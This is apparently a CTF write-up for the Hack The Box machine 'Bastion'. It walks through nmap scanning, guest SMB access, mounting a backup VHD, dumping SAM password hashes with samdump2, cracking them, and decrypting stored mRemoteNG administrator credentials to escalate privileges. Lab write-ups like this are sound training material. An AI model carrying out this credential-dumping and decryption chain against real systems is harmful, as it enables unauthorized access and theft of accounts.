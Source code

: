 <img src="Machines/Bastion/Images/1.PNG">
##Intro 
Target: 10.10.10.134

It's a easy box and I will be using kali linux for solving this.
##Steps
####1. Info Gathering
First, Run a nmap scan to see open ports and services.
```
root@kali:~/CTF# nmap -sC -sV 10.10.10.134
```
And here are the results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-08 08:56 EDT
Nmap scan report for 10.10.10.134
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m21s, deviation: 1h09m15s, median: 37s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-08T14:57:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-08T12:57:34
|_  start_date: 2019-09-08T11:52:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
```
From the open ports, It can be known that the box is a windows machine and we can see its servies. So lets jump right into the fun part. 

####2. Exploitation
There seem to nothing special.Let's try smb service for the port 445. For mb service exploitation in kali, we use smbmap, smbclient, enum4linux, etc.

Lets try smbclient:
```
smbclient -L 10.10.10.134
```
<img src="Machines/Bastion/Images/2.PNG">

With this tool we can see smb shares of this box without any password. Try accessing some shares by 
```smbclient -L //10.10.10.134/**insert sharename here**```. In this case, you can acces **Backups** :
```
root@kali:~/CTF# smbclient //10.10.10.134/Backups

```
<img src="Machines/Bastion/Images/3.PNG">

Voila! We got a shell now.So lets see what we have in here. Now lets see what twe got in there.

4
Content of note.txt:
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Now let's mount that backup folder.

```
mount -t cifs //10.10.10.134/Backups -o user=guest,password= mnt/backups
````
And we will see around what it has

```
root@kali:~/CTF/bastion/mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
BackupSpecs.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
```
Now lets mount the VHD. VHD - Virtual Hard Drive 
```
guestmount --add /mnt/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
Now lets see whats around there

```
root@kali:CTF/bastion/mnt/vhd# ls -la           
total 2096745
drwxrwxrwx 1 root root      12288 Feb 22  2019  .
drwxr-xr-x 4 root root       4096 Sep  6 15:25  ..
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /mnt/vhd/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```
As I could not find user.txt. So we do this now:
```
root@kali:~CTF/bastion/mnt/vhd# samdump2 ./SYSTEM ./SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Now lets Drop that sweet hash ```26112010952d963c8dc4217daec986d9``` in hashcat or you can use some online tools to identify and decrypt the hash. I recommend using hashes.org.And we get the password for the user L4mpje-PC,Now lets login as that particular user in ssh.

<img src="Machines/Bastion/Images/5.PNG">

#### 3. Getting user flag
Fire up the terminal and using ssh login as L4mpje. So the sweet terminal is working and it's a childs play to get the hash so yeah.

<img src="Machines/Bastion/Images/6.PNG">

<img src="Machines/Bastion/Images/7.PNG">

Now let's proceed to privillege escalation **My favourite part**

#### 4. Privillege Escalation
After screwing around and raging, I found a intresting program installed by that particular user on appdata 'mRemoteNG'.So, after checking that out I found a confCons.xml and looked whats in it and voila I found the Administrator creds!! Lets drop that hash in a tool that some one has put it out for us. <a href="https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py"> mremoteng-decrypt </a>

<img src="Machines/Bastion/Images/8.PNG">

<img src="Machines/Bastion/Images/9.PNG">

<img src="Machines/Bastion/Images/10.PNG">

```
java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
```
Now we go the admin creds, Lets login and get the flag. See its 

<img src="Machines/Bastion/Images/11.PNG">

<img src="Machines/Bastion/Images/12.PNG">

# **Easy peasy**

